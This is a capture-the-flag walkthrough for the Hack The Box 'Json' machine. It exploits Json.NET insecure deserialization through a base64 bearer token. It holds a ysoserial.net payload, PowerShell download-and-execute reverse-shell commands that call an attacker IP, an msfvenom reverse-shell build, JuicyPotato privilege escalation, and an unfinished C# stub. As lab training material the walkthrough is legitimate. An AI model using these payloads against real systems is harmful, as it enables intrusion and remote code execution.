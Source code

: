 ## JSON

### User Flag

https://app.hackthebox.com/machines/Json

`POST /api/token` is the login request. If we remove the JSON on body we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Object reference not set to an instance of an object.","ExceptionType":"System.NullReferenceException","StackTrace":"   at DemoAppExplanaiton.Controllers.AccountController.Login(Usuario login) in C:\\Users\\admin\\source\\repos\\DemoAppExplanaiton\\DemoAppExplanaiton\\Controllers\\AccountController.cs:line 24\r\n   at lambda_method(Closure , Object , Object[] )\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ActionExecutor.<>c__DisplayClass6_2.<GetExecutor>b__2(Object instance, Object[] methodParameters)\r\n   at System.Web.Http.Controllers.ReflectedHttpActionDescriptor.ExecuteAsync(HttpControllerContext controllerContext, IDictionary`2 arguments, CancellationToken cancellationToken)\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ApiControllerActionInvoker.<InvokeActionAsyncCore>d__1.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Controllers.ActionFilterResult.<ExecuteAsync>d__5.MoveNext()\r\n--- End of stack trace from previous location where exception was thrown ---\r\n   at System.Runtime.ExceptionServices.ExceptionDispatchInfo.Throw()\r\n   at System.Runtime.CompilerServices.TaskAwaiter.HandleNonSuccessAndDebuggerNotification(Task task)\r\n   at System.Web.Http.Dispatcher.HttpControllerDispatcher.<SendAsync>d__15.MoveNext()"}
```

Credentials admin:admin works on login.

Looking through requests, /api/Account catches our eye. We have oauth cookie and Bearer that has the same value.
```
eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=

{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}
```

If we change this to an invalid base64 format and put on bearer, we receive this error:
```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

<br>

💡 One of the primary signs for insecure deserialization is having a serialized object encoded in base64 and put into a cookie.   When the Cookie goes back to the application, it deserializes it and executes its content. There no security/safety controls for checking the UNTRUSTED data.

<br>

Now that we know that the website is using Json.net, we can use [ysoserial.net](https://github.com/pwntester/ysoserial.net).  
This tool works best on a Windows Machines.

Creating a payload to ping us.
```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "ping -c 10.10.14.5" -t

{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -c 10.10.14.5']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Encode the output to base64 and replace the "Bearer" header.

We can use this to get the reverse shell, but encoded in base64 since it uses ''
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')"

# For some reason we need to convert to UTF-16
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Replace the previous output with this command
powershell -EncodedCommand SUVYKE5ldy1PYmplY3QgTmV0LldlYkNsaWVudCkuZG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly8xMC4xMC4xNC41L0ludm9rZS1Qb3dlclNoZWxsVGNwLnBzMScp

# You could use two steps reverse
powershell -c Invoke-WebRequest -Uri http://10.2.117.185:8000/shell.exe -OutFile C:\tmp\reverse.ps1
powershell C:\tmp\reverse.ps1
```

### Privilege Escalation
SeImpersonatePrivilege is enabled, so we can use JuicyPotato.

```
powershell.exe -command iwr -Uri http://10.10.14.5/JuicyPotato.exe -OutFile JuicyPotato.exe

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1337 -a x64 --platform Windows -f exe -o shell.exe

powershell.exe -command iwr -Uri http://10.10.14.5/shell.exe -OutFile shell.exe

.\JuicyPotato.exe -t * -p .\shell.exe -l 4000 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
```

<br>

We can use this to print the decrypted password from SyncLocation.exe.
```C#
use System.Windows.Forms;

...
private static void Main()
{
	[PUT DECRYPTION CODE]
	MessageBox.Show(userName + ":" + password);
	...
}


